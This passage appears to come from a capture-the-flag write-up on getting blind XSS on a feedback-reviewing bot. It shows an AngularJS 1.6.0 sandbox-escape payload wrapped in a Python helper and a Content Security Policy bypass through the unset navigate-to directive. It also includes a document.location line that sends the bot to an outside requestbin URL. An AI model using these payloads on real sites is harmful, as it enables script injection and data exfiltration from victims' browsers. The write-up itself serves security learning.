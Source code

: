 And we can finally confirm successful blind XSS on the bot:

```json
{"level":30,"time":1619754309364,"pid":918,"hostname":"70b385475bbc","reqId":"req-s","msg":"Route GET:/XSSSSSSSSSSSSSSSSSSSSSSSSSSSSS not found"}
```

Job well done, right? Now we can easily have it hit us back with any data we request, right? Nope. Although we can fetch pages locally, if we make the bot send a request to ourselves, it will not go through because Content Security Policy is still at large. We must bypass it again. But before we do that, let's put our payload into a Python function so that we can more easily manage it:

```python
def execute_xss(javascript):
    # Crafting the payload
    vulnerable_library = '<script src=\\"https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.0/angular.min.js\\"></script>'
    # Crafting the exploit
    library_exploit = '<K Ng-App>{{$new.constructor(\'' + javascript + '\')()}}'
    # Sending the request
    return submit_feedback(vulnerable_library + library_exploit)
```

### Bypassing the CSP to exfiltrate XSS output

You can use the Content Security Policy to specify the allowed sources for many different tags, however, if you don't explicitly specify a tag, it will most likely fall back to using the configuration you set in the `defaultSrc` directive. Our application has a `defaultSrc` of `self` and that means that if an allowed source isn't explicit for a tag, it will become `self` and `self` only allows the local domain.

The particular CSP policy that is menacing us in our quest for exfiltration is actually `connect-src`. It governs the URL's that JavaScript can make requests to with API's such as `XMLHttpRequest`, `fetch`, `WebSocket`, etc. This directive is not explicitly set in the application, so it falls back to `defaultSrc`, which is `self`, so we are only allowed to use these API's to make requests to the local domain. How are we supposed to get any data back if we can't use these API's to hit anything other than `127.0.0.1`?

We are in luck, because there is a special CSP directive we can abuse - `navigate-to`. It sets the URL's to which the JavaScript document object can navigate to, with things like `document.location` or `window.open`. This directive is special because when it isn't set, it doesn't fall back to `defaultSrc` - [Mozilla's own docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to) say that if it isn't set, any URL is allowed. This means that although we cannot hit the internet with `fetch` or `XMLHttpRequest`, we can use `document.location` to get a request out. We can confirm this by pointing the bot to our [Request Bin](https://requestbin.io/) and sending the following payload with our new Python function:

```python
execute_xss('document.location=\\"https://requestbin.io/12345\\"')
```

We get a successful call back to our HTTP listener, so we've finally achieved full blind XSS and we are ready to go grab the flag.

### Writing the Exploit
